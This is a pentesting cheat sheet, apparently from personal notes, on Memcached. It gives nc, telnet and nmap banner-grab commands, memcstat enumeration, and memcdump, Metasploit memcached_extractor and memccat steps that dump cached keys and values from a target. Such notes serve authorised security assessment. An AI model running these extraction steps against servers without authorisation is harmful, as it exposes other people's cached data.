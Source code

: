 # Memcached

## 01 - Setup

```
$ sudo apt install libmemcached-tools
```

## 02 - Banner Grab

### 2.1 - Manual

Using `netcat` to grab the service version number.

```
$ nc <IP> 11211
```

Using `telnet` to grab the service version number.

```
$ telnet <IP> 11211
version
```

### 2.2 - Network Mapper

```
$ sudo nmap -p 11211 -Pn -n -sV <IP>
```

## 03 - Enumerate incoming connections

```
$ nmap -p 11211 -Pn -n --script memcached-info <IP>
```

## 04 - Enumerate Items

```
$ memcstat --servers=<IP> [--username=<password> --password=<password>]
..[omitted]..
curr_items: <int>
..[omitted]..
```

## 05 - Extract Data

### 5.1 - Dump the keys

#### 5.1.1 - Manual

```
$ memcdump --server=<IP> [--username=<password> --password=<password>]
```

#### 5.1.2 - Metasploit

```
msf > use auxiliary/gather/memcached_extractor
msf auxiliary(gather/memcached_extractor) > options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(gather/memcached_extractor) > set rhosts <IP>

msf auxiliary(gather/memcached_extractor) > set threads <int>

msf auxiliary(gather/memcached_extractor) > run
```

### 5.2 - Enumerate Keys

```
$ /usr/share/memcached/scripts/memcached-tool <IP>:11211 dump [key_name]
```

Display the key's values

```
$ memccat --server=<IP> [--username=<password> --password=<password>] <key_name_1> <key_name_n>
```

---
## References

- [Hacktricks: Pentesting Memcache](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Remote Services/Memcached|Vulnerability Assessment: Memcached]]